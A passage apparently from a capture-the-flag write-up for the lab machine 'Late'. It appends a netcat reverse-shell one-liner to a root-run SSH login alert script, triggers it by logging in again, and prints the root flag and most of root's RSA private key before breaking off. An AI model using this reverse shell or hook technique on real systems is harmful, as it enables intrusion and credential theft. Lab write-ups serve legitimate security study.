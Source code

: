 ```bash
svc_acc@late:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 4488 >/tmp/f" >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 4488 >/tmp/f
```

Log out and in again to trigger the `ssh-alert`-script and grab `root.txt`:
```bash
➜  late nc -lvnp 4488                             
listening on [any] 4488 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.11.156] 49522
/bin/sh: 0: can't access tty; job control turned off
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
late
# cat /root/root.txt
38007fc077ae764169e09ba12c574fa7
# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEAuDUCfyBofVqk+Qilst0xDnhScDu+kSmXHYBcL1iwxajW5SWp
oGqD39nBh/AzQYcQk4t5xIV8eUlda0zD1pjfPYAOHt9efDSxWaJQ91P5L+qlsCii
efP8M0zlWgN8nzII9MSrRSU7I7iVYaYLawl82JhnoTSt1CoexSDT0T23DPOr2KC/
8XBlIFgZN/pyri0qtG3n3r1lRBQFj1eDMwd2AeeOL+AQUz7b7v5xqErTNvRjC2Yf
xqmIEaqgvTWsxZL2oCJbv9pJ3+ApGaxLJyZgvXMI39ubndiatITMiGbwE61kMV+D
r8d8LKpHBRBTKOzo9VV8dHFhN9KYAFKbAatpKwIDAQABAoIBAGnHdxGNiLNDVCz1
vEFEJ6GJkr2EcWBmo7J7PXSq14gJ9q1LvWazA9uN7kajtqtQZkJz+47QoLP9Xzn4
sRUQYFGusW0lE9r7X0R7o0cD37qWYmMQUoz5gL/szl+sVOoOD3qPXVKtmJJgsteK
RFBI+HpgulGmMJP/RAArY7dqWy2B3XniUWZY+IjOdHYBQSNFbc6kYrwDcpYn1rHt
fwq55t7nyXho25paTbmwRBhBwNA4fK/Kzkbct4bvx1GRxdctqa4NbvoPVTNJ0tnY
7kFn4V6rBV8LiZP9tI5eLWNh+yid7Sca2TgUqQdfcFePD6GnW9qydgTs32fAwbsL
nqNHH1ECgYEA73dBhgBnvvkSDRUBjJV94q+jeE+7oh2WOOCcMAtu4vQ6Z6ZA1im6
c0bETk3FyNTtrIq+NxqqXvDz15u5IferwPT5jYyi6/5g2wfmrt0K9qYmCk0g/TFJ
ab6Zbz57eVzjZnZLSsaCyPsJqRGMAb+kPmszhseeXp82cwLmH0BBfCcCgYEAxO0D
IJPrqjyA/O/f95okskHqW0/kstPQCMazsxf4qtQ4G0j/UTbE054T+nRJvnEJd+68
MWsmXechRKASK8FZcVBJMPlJB9qetCXanZDnthHUOZ4ASMyWGUY5GnqdiD8WWyI+
WpqQ3YEaXhj2C507yS1RsZnr1iUvt+ic6xqimV0CgYBbJnfIfAsBhGk8lYxbaOPc
D6MXvrHbSYvO5qBNIWz58qDwpzXyzztrebprW+s3QOWfUciJzRqgvPL0VRApP88e
yaDcInY5gkB33xAN65GqxR+huC4gckxRdf2NfKkfTx43+Ds8oUdTHUtWEZnLaJkq
MUARw5YiylO9f5L8vkau7QJ/BuxOL9cDcfiukDXeqdXBdILculkUsTTBG43gw2sU
Uu0jC9KFJ1XFlar5CNUNwqQ2sQCznQknUCXQBZmbCe7CNjmcWRxqdNw6uBqclO2D
N+Nokp37ZJPMsxbE6ylkYGXXY1zQ1F6auS7Qvn4iKEZe07PEK3o90El+Y/jJi3pk
PQKBgQC0AIdrkyGdIiPSHJHmiOpGyE85Hl8McQZoTwAlacTm9HYiQycQoraFwAmK
yHYDDSiJznWLqU58gdLybuTU4eWkWd/NaPOSrrUpHdIWTS8+nWJiu1BPowKaGMdP
```